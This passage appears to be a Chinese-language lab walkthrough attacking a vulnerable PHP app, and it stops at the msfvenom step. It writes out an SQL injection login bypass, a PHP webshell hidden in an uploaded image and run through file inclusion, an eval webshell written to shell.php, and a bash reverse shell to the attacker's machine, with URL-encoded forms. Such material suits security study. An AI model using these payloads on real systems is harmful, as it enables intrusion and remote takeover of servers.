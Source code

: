 ![image-20210928210131109](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109282101228.png)

	'or 1=1-- -\' 成功绕过登录(密码一样)
> sql注入一个重要的原则就是闭合输入查询
>
> str_replace的作用是将字符串' 替换为空

## 观察图片上传和show,也存在文件包含

- 上传加一句话木马进图片xiu.jpg

```
<?php system($_GET['cmd']);?>
```

- 文件包含进xiu.jpg

```
load=%2Fuploaded_images%2Fxiu.jpg&continue=continue
```

![image-20210928220926667](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109282209885.png)

## 把cmd=的值改成反弹shell(要url编码)

### 蚁剑连接post需要改cmd=

```
echo '<?php eval($_POST['pass'])?>' >> uploaded_images/shell.php
```

```
echo%20%27%3C%3Fphp%20eval(%24_POST%5B%27pass%27%5D)%3F%3E%27%20%3E%3E%20uploaded_images%2Fshell.php
```

![image-20210928222746491](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109282227667.png)

### nc反弹shell需要改cmd=

```
echo "bash -i >& /dev/tcp/192.168.100.143/6666 0>&1" | bash
```

```
echo%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.100.143%2F6666%200%3E%261%22%20%7C%20bash
```

- kali端

![image-20210928223231701](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109282232840.png)

### msf反弹shell需要改cmd=

- msfvenom生成木马
